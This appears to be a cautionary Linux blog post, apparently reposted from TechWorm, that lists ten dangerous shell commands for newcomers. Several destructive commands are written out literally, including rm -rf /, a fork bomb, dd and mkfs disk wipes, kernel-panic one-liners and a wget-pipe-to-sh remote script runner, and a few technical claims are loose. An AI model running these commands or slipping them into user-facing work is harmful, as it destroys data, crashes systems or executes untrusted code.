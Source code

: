 ```yaml
---
layout: post
title: 10 Most Dangerous Commands
subtitle: You Should Never Execute on Linux
bigimg: /img/mostcommands.gif
---
```


## 10 Most Dangerous Commands
You Should Never Execute on Linux

### 1. rm -rf Command
Commonly known as the recursive delete command, the rm -rf command is one of the fastest way to delete a folder and its contents. But a little typo or ignorance may result into unrecoverable system damage. The some of options used with rm command are.

```
1. rm command in Linux is used to delete files.
2. rm -r command deletes the folder recursively, even the empty folder.
3. rm -f command removes ‘Read only File’ without asking.
4. rm -rf / : Force deletion of everything in root directory.
5. rm -rf * : Force deletion of everything in current directory/working directory.
6. rm -rf . : Force deletion of current folder and sub folders.
```

Hence, be careful when you are executing rm -rf command. To overcome accidental delete of file by ‘rm‘ command, create an alias of ‘rm‘ command as ‘rm -i‘ in ".bashrc" file, it will ask you to confirm every deletion.’

Note, these days on most Linux systems if you tried doing this you’d get a warning. But the warning isn’t guaranteed, so just don’t do it.

## 2. :(){:|:&};: Command
   
This command is actually a fork bomb. It operates by defining a function called ‘:‘, which calls itself twice, once in the foreground and once in the background. It keeps on executing again and again till the system freezes.
   
``` :(){:|:&};: ```

This fork bomb command defines a function named : that recursively calls itself twice when executed. One of the recursive calls happens in the foreground while the other happens in the background.
   
In other words, whenever this function executes, it spawns two child processes. Those child processes spawn their own child processes, and this cycle keeps going in an infinite loop. The only way out of it is to reboot the system.

## 3. Format Hard Drive
   
The terminal is especially tricky for Linux newbies because it provides several ways to accidentally wipe one’s hard drive. Recursive deletion is a big one, but here’s another:
   
> mkfs.ext3 /dev/hda

This command formats the hard drive to use the ext3 filesystem.The above command will format the block ‘sda’ and you would surely be knowing that after execution of the above command your Block (Hard Disk Drive) would be new, BRAND NEW! Without any data, leaving your system into unrecoverable stage.

## 4. Overwrite Hard Drive

Never use this command if your workstation contains life long work. At least disk formatting is an actual procedure with real-life uses; directly overwriting one’s drive, on the other hand, is not so great.

> 'command' > /dev/hda

In the command above, command can be replaced by any Bash command. The > operator redirects the output from the command on its left to the file on its right. In this case, it doesn’t matter what the output of the left command is. That raw data is being redirected and used to overwrite the system hard drive. This renders your Linux PC/laptop useless.

## 5. Wipe Hard Drive
   
   This command will completely wipe out your hard drive. No data corruptions or overwrites; it will literally fill your hard drive with zeroes. While this command can be necessiated if you have to start afresh but wiping your hard drive is a bad idea.
   
> dd if=/dev/zero of=/dev/hda

The dd command is a low-level instruction that’s mostly used to write data to physical drives. The ifparameter determines the source of data, which in this case is **/dev/zero**, a special on Linux that produces an infinite stream of zeroes. The of parameter determines the destination of those zeroes, which is the /dev/hda drive.

## 6. > file Command
   
The above command is used to flush the content of file. If the above command is executed with a typo or ignorance like “> xt.conf” will write the configuration file or any other system or configuration file and lead to a complete breakdown of your PC/workstation.

## 7. Implode Hard Drive
   
For some special reasons, Linux has a special file called **/dev/null** that will discard whatever data is written to it. You can think of it as a black hole or a file shredder: anything given to it as input will be eaten up for good. You must have understood what I was alluding to. Running any command with **/dev/null** can shred that particular data file. However using the **/dev/null** with some other commands can be quite devastating for you.
   
> mv / /dev/null

The above mv command tries to move the system’s root directory **/** into the black hole of **/dev/null**. This is a valid command and the result is devastating: the hard drive gets eaten up and there’s nothing left. Doing this will make your system unusable.

## 8. ^foo^bar
   
   FUBAR stands for **fucked up beyond all recognition/any repair/all reason**. As the name suggests, this command if not used properly can fuck up your system. This command is used to edit the previous run command without the need of retyping the whole command again. But this can really be troublesome if you didn’t take the risk of thoroughly checking the change in original command using **^foo^bar** command.
   
## 9. Cause Kernel Panic
  
While Windows has its infamous BSoD or Blue Screen of Death, Linux has a similar Blue Screen which is known as **Kernel Panic**. Sometimes, an internal error occurs from which recovery is impossible, so the system will enact something similar to the Blue Screen: a kernel panic. 

```
dd if=/dev/random of=/dev/port
echo 1 > /proc/sys/kernel/panic
cat /dev/port
cat /dev/zero > /dev/mem
```

If the above commands aren’t important here. What is important is that running any of those lines will result in a kernel panic, forcing you to reboot your system. It’s best to stay away from these commands unless you’re absolutely sure you know what you’re doing.

## 10. Execute Remote Script

Here’s an innocent command that can actually be useful in day-to-day life on a Linux system. **wget** retrieves the contents of a web URL, which can be used to access websites or download files. However, there’s a simple trick that turns it dangerous:

> wget http://an-untrusted-url -O- \| sh
 

**wget http://malicious_source -O- \| sh** command will download a script from a malicious source and then execute it. Wget command will download the script and sh will execute the downloaded script.The above combination downloads the contents of the given URL and immediately feeds it to the **sh** command, which executes the downloaded contents in the terminal. If the URL were to point to a malicious script, you’d be sealing your own fate with this command.

Font [TechWorm](http://www.techworm.net/2016/10/10-lethal-linux-commands-never-execute.html)